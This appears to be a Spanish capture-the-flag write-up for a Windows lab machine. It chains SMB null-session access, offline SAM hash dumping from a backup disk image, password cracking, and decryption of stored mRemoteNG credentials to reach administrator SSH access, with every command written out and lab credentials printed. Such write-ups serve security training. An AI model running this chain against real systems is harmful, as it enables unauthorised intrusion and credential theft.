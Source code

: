 Hacemos el escaneo de nmap:
![[Pasted image 20240129100156.png]]
Si enumerados recursos compartidos con smbclient con una null session, vemos los sigueintes recursos compartidos:
```bash
smbclient -L 10.10.10.134 -N
```
![[Pasted image 20240129100528.png]]
Con smbmap podemos ver qué permisos tenemos sobre estos recursos compartidos, donde vemos que podemos leer y escribir sobre el recurso backups:
```bash
smbmap -H 10.10.10.134 -u 'null'
```
![[Pasted image 20240129100638.png]]
Nos conectamos a este recurso compartido donde vemos un directorio de backups de windows:
```bash
smbclient -N //10.10.10.134/Backups
```
![[Pasted image 20240129100809.png]]
Nos montamos todo este recurso de backups en nuestra máquina atacante de la siguiente forma:
```bash
mount -t cifs -o username=null,password=null //10.10.10.134/Backups /mnt/montura
```
Y ahora podremos navegar por los directorios sin descargarnos nada:
![[Pasted image 20240129101937.png]]
Y esta es la estructura de los directorios:
![[Pasted image 20240129102022.png]]
Y observamos dos archivos con extensión .vhd (archivo de disco virtual):
![[Pasted image 20240129102404.png]]
Y con la utilidad guestmount vamos a montar cada uno de los discos en una nueva carpeta, que crearemos la carpeta discos. Pero con uno de los discos nos da error, aunque con el otro funciona bien:
```bash
guestmount --add /mnt/montura/WindowsImageBackup/L4mpje-PC/Backup\ 2019-02-22\ 124351/9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro discos/
```
![[Pasted image 20240129104021.png]]
Y dentro del directorio /windows/system32/config, hay un archivo llamado SAM, donde se pueden contener hashes de usuarios, por lo que nos ubicamos en esta ruta y con impacket-secretsdump tratamos de obtenerlos:
![[Pasted image 20240129104319.png]]
Ejecutamos el siguiente comando y obtenemos los hashes:
```bash
impacket-secretsdump -sam SAM -security SECURITY -system SYSTEM LOCAL
```
![[Pasted image 20240129104346.png]]
Y vemos que la web de crackstation nos encontró el hash del usuario L4mpje:
```bash
L4mpje:bureaulampje
```
![[Pasted image 20240129104534.png]]
Una vez obtenido esto, vamos a entrar por ssh:
```bash
ssh L4mpje@10.10.10.134
```
Y una vez dentro de la máquina, si nos ubicamos dentro de archivos de programa x86, vemos un directorio llamado nRemoteNG, que es extraño:
![[Pasted image 20240129105213.png]]
En este enlace tenemos instrucciones de cómo explotar esto mismo:
```bash
https://ethicalhackingguru.com/how-to-exploit-remote-connection-managers/
```
Dentro de esta web, se nos dice que hay una ruta donde se guardan credenciales en un archivo confCons.xml:
![[Pasted image 20240129105957.png]]
Y confirmamos que ese archivo efectivamente existe en la ruta C:\Users\L4mpje\AppData\Roaming\mRemoteNG:
![[Pasted image 20240129110013.png]]
Pero la contraseña viene encriptada en este archivo, pero sí vemos al principio la línea de protected con la siguiente contraseña
```bash
aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==
```
![[Pasted image 20240129110052.png]]
Por lo que vamos a pasarnos este archivo en local a nuestra máquina atacante y vamos a tratar de romperlo:
```bash 
scp l4mpje@10.10.10.134:/Users/L4mpje/AppData/Roaming/mRemoteNG/confCons.xml .
```
Y lo tenemos en local:
![[Pasted image 20240129110241.png]]
Una vez hecho esto, contamos con el siguiente exploit para romper este archivo y ver credenciales en claro:
```bash
https://github.com/haseebT/mRemoteNG-Decrypt
```
![[Pasted image 20240129110313.png]]
Ejecutamos este exploit siguiendo las instrucciones, pasándole la contraseña protegida y la obtenemos en texto claro:
```bash
python3 mremoteng_decrypt.py -s aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==
```
![[Pasted image 20240129110713.png]]
Las credenciales del administrador son las siguientes:
```bash
administrator:thXLHM96BeKL0ER2
```
Entramos por ssh:
```bash
ssh Administrator@10.10.10.134
```
Y ya estamos dentro:
![[Pasted image 20240129110821.png]]
